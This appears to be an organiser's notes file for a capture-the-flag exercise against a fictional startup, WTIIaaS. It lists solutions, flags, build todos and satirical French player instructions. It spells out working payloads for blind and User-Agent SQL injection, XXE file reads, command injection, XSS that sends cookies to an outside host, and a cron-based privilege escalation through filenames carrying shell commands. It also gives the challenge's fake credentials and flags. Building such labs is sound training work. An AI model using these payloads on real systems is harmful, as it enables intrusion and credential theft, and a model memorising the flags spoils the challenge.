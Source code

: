 * Compagnies
** Startup 1 — WTIIaaS
   - What Time Is It as a Service
   - Interface pour avoir l'heure
* Solutions
** DONE Breaking into the intranet
   CLOSED: [2017-03-10 Fri 21:15]
   In /old/ (leaked through robots.txt) resides a crypto challenge. Once "reversed", a login to the intranet is given.
   Email: zana.elbert@wtiiaas.csg
   Password: FallOutBoyzForever1121
   It's a simple XOR with a satic ROT-n key.
   with open("out.bin", 'rb') as output:
     print("".join(magicify(output.read() ,key)))
** DONE Blind SQL injection API key leak
   CLOSED: [2017-02-25 Sat 01:12]
   <key>' or (8=substr((select key_guid from apikeys limit 1,1),1,1) and sleep(1)) #</key>
** DONE XXE
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, free action `getTime' is vulnerable to XXE
<?xml version="1.0"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/api/api.php" >]>
<WTIIaaS>
  <identity>
    <key>&xxe;</key>
  </identity>
  
  <query action="getTime"/>
</WTIIaaS>
        
** DONE RCE (Command injection) — Requires premium API key to have leaked beforehand, possible through various means
   CLOSED: [2017-02-25 Sat 01:12]
   In the API, premium action `getTimeWithFormat' is vulnerable to a command injection in the `format' field
<?xml version="1.0"?>
<WTIIaaS>
  <identity>
    <key>85922064</key>
  </identity>
  
  <query action="getTimeWithFormat" format='%m";id;f="' />
</WTIIaaS>
** DONE Password dump
   CLOSED: [2017-02-25 Sat 01:12]
| Christia | Shore | shore.christia@wtiiaas.csg | f6432274349b5cb93433f8ed886a3f37 | winter |
Password reuse on pastebin, indexed @ http://pastebin.com/EFxqS501, uploaded Fri Feb 24 21:19:26 EST 2017
One of the ways to get to the intranet

** DONE INSERT SQLi in User-Agent ("logging" mechanism)
   CLOSED: [2017-02-25 Sat 01:13]
*** POC
   User-Agent: ' or extractvalue(1,concat(0x7e,(SELECT * from flag limit 0,1))) or '
   
   CSG_SomeThingsAreStrange
** DONE Steal the CEO's cookies
   CLOSED: [2017-03-01 Wed 23:14]
*** PoC
    <img id=f src=x /><script>var elem=document.getElementById('f');elem.src="http://192.168.0.199:8080/"+document.cookie;</script>
** DONE Extract the banking info from /home/sysadmin/banking.txt.pgp
   CLOSED: [2017-03-10 Fri 01:55]
   From a RCE, proceed to privilege escalate and extract the key from .bash_history
*** Local privilege escalation
    Vulnerable bash script running through crontab, as sysadmin
    Create files in /tmp with filename containing trailing bash commands.
    ie run $ touch "/tmp/a;cp -R \$HOME ."
    and then $ touch "/tmp/a;chmod -R 777 sysadmin"
    This will copy sysadmin's homedir to /tmp and make it world-readable. 
*** Decrypted file content
    $ gpg --passphrase "@\!YOUcantGUESSthis#@\!" --decrypt banking.txt.pgp
    Bank account
    ------------
    SWIFT/BIC: CSGS-US-35-A9F
    Password : HS9;~7HP9P@tYm;8nvo[|mL;:D%BwUh5-X'0!v%I
    
* Todos
** DONE Make mysql start automatically
   CLOSED: [2017-03-11 Sat 02:21]
** DONE Setup Mysql schema on image run
   CLOSED: [2017-03-11 Sat 15:05]
** WONTFIX Fix images in team (CFO/CTO)
** DONE Make API documentation in HTML
   CLOSED: [2017-03-09 Thu 16:01]
** WONTFIX Make employees.php page
** DONE Index a database dump [identitygenerator.py] → 
   CLOSED: [2017-02-24 Fri 21:18]
** DONE Make intranet login
   CLOSED: [2017-02-25 Sat 00:21]
** DONE Add User-Agent sql injection
   CLOSED: [2017-02-25 Sat 01:10]
** DONE Implement a messaging system
   CLOSED: [2017-02-25 Sat 18:11]
** DONE Implement a XSS bot for the CEO's account flag
   CLOSED: [2017-03-08 Wed 00:16]
   See ./src/wtiiaas/scripts/xss.js
** DONE Automate the XSS bot
   CLOSED: [2017-03-10 Fri 15:47]
*** See ./src/wtiiaas/scripts/xss.sh

** WONTFIX Make the instructions HTML
** DONE Privilege escalation from RCE
   CLOSED: [2017-03-10 Fri 00:29]
   Bash crontab running as sysadmin, banking file is owned by sysadmin
   See ./src/wtiiaas/scripts/deletetmp.sh
** DONE Generate PGP file with banking info
   CLOSED: [2017-03-01 Wed 22:13]
*** Command
    $ gpg --batch --yes --passphrase "@\!YOUcantGUESSthis#@\!" --output banking.txt.pgp --symmetric banking.txt
** DONE Add extra ways to login to intranet
   CLOSED: [2017-03-10 Fri 21:35]
** DONE Clean database before export
   CLOSED: [2017-03-11 Sat 15:06]
** DONE Make app use dedicated SQL user (nonroot)
   CLOSED: [2017-03-02 Thu 00:47]
** DONE Fix Dockerfile
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Make webserver non www-data read-ONLY
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Modify root password from ENV variable that will be set when container is RUN
   CLOSED: [2017-03-11 Sat 02:20]
** DONE Clean .bash_history for sysadmin to show GPG symmetric password
   CLOSED: [2017-03-11 Sat 02:20]
* Flags
** CSG-CIACantBreakThisCrapto (Crypto intranet message)
** CSG-WowItsAsIfXSSIsActuallyABigDeal (XSS)
** CSG_SomeThingsAreStrange (SQLi User-Agent)
** CSG-HarvestAllTheSessions (Steal session through XSS and check CEO's messages)


* Instructions
Camarades, l'heure est grave. Les écrits du camarade Mao s'avèrent véridique: l'impérialisme de l'Ouest prend notre patrie en otage! Voilà pourquoi nous avons créés une unité super-méga-secrète qui nous permettera de partir en cyber-guerre contre ces américains assoiffés de profit! Ces jeunes programmeurs milliardaires de 20 ans causent un embarras incomensurable à la patrie, nous nous devons de lutter!

Votre mission est de vous infiltrer dans le parc informatique d'une startup « high-tech » américaine et d'exfiltrer un maximum d'information. Cette informatoin sera ensuite relayée au politburo du Comité central du parti Communiste.

Vos tâches:
- Obtenir la liste complète des employés
  - employees.txt
  - Nom, prénom, password
    
- Trouver le mot de passe du CEO
  - CEO-pass.txt
  - Mot de passe en clair, hashé = moitié des points
    
- Obtenir de l'exécution de code sur le serveur web
  - code-exec.txt
    - Instruction pour reproduire l'exécution de code (quelques lignes avec preuve de concept (PoC))
    
- Obtenir 
  
- Obtenir les privilèges `root' sur le serveur
  - Remise: rootwriteup.txt

- Quelques flags sont cachés sur le serveur.
  - flags.txt
    - Format: CSG_[a-zA-Z]+

  et votre patrie a besoin de vous afin de regagner du terrain sur l'économie mondiale. Ces damnés capitalistes de l'ouest nous mennent une lutte d'innovation sans relâche et semblent tous être  américains 

 votre patrie a besoin de vous. 
